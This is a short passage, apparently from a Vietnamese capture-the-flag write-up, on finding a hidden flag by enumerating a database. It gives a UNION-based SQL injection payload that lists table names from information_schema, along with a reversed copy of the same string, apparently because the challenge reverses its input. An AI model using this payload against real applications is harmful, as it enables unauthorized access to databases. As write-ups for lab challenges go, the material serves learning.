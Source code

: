 ![](./img_WU/8.png)

- Từ bảng trên ta thấy bảng đã select 3 cột và flag sẽ nằm trong bảng nào đấy trong database này. Việc chúng ta hãy đi tìm tên bảng và đi tìm tên cột để tìm flag.
- Tôi đã đi tìm tên bảng như sau:

```
' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables -- -

Reverse:
- --selbat.amehcs_noitamrofni MORF 1 ,eman_elbat ,amehcs_elbat TCELES NOINU '
```
